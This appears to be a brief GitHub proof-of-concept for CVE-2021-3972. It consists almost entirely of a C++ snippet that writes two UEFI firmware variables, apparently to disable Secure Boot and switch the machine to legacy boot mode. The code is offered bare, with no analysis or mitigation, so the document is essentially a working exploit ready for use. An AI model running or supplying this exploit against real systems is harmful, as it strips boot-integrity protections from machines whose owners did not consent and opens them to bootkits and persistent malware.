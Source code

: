 # CVE-2021-3972

poc code without other thing

```c++
BYTE value = 0x1;
SetFirmwareEnvironmentVariableEx(_T("ChgBootSecureBootDisable"),_T("{6ACCE65D-DA35-4B39-B64B-5ED927A7DC7E}"),&value,sizeof(BYTE),0x7);
SetFirmwareEnvironmentVariableEx(_T("ChgBootChangeLegacy"),_T("{6ACCE65D-DA35-4B39-B64B-5ED927A7DC7E}"),&value,sizeof(BYTE),0x7);
```
